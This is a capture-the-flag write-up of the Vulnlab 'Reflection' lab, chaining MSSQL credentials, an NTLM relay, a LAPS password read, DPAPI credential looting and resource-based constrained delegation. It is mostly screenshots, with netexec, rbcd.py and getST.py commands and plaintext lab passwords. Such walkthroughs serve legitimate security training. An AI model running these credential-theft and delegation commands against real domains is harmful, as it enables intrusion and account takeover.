# Reflection -- Vulnlab (write-up)

**Difficulty:** Hard
**Box:** Reflection (Vulnlab)
**Author:** dsec
**Date:** 2025-10-12

---

## TL;DR

### Multi-machine chain. MSSQL creds from SMB, NTLM relay via dirtree to get more creds, BloodHound showed GenericAll over machines -> LAPS password -> DPAPI loot -> RBCD to final workstation.
---
## Target info

- Hosts: DC01 (`10.10.245.101`), MS01 (`10.10.245.102`), WS01
- Domain: `reflection.vl`
---
## Enumeration



DC01:







SMB signing not required.

MS01:











---
## Initial access

Found MSSQL creds:



`web_staging:Washroom510`







---
## NTLM relay

Set up Responder and ntlmrelayx, then used dirtree command on MSSQL to trigger authentication:







ntlmrelayx opened an interactive SMB client shell, connected via nc:

Found more creds: `web_prod:Tribesman201`





Dumped from database:

- `abbie.smith:CMe1x+nlRaaWEw`
- `dorothy.rose:hC_fny3OK9glSJ`

---
## Lateral movement

BloodHound showed abbie.smith has GenericAll over MS01, and GPO LAPS is in use:





Read LAPS password:



Got: `H447.++h6g5}xi`





Found: `svc_web_staging:DivinelyPacifism98`

Used DPAPI with local admin on MS01:

```bash
netexec smb 10.10.245.246 -u administrator -p 'H447.++h6g5}xi' --dpapi --local-auth
```



Found: `Georgia.Price:DBl+5MPkpJg5id`

---
## Privilege escalation



Georgia.Price has GenericAll over WS01. Since we control `svc_web_staging` (which has an SPN), used RBCD:

```bash
rbcd.py -delegate-from 'svc_web_staging' -delegate-to 'WS01$' -action 'write' 'reflection.vl/Georgia.Price:DBl+5MPkpJg5id'
```



```bash
getST.py -spn 'cifs/WS01.reflection.vl' -impersonate 'dom_rgarner' 'reflection.vl/svc_web_staging:DivinelyPacifism98'
```





Found: `Rhys.Garner:knh1gJ8Xmeq+uP`



---
## Lessons & takeaways

- NTLM relay via MSSQL dirtree is powerful when SMB signing is disabled
- DPAPI looting with `netexec --dpapi --local-auth` extracts Credential Manager secrets without touching LSASS
- RBCD attack requires: GenericAll over target machine + control of an account with an SPN
- Chain: MSSQL creds -> relay -> LAPS -> DPAPI -> RBCD is a clean multi-hop path
---
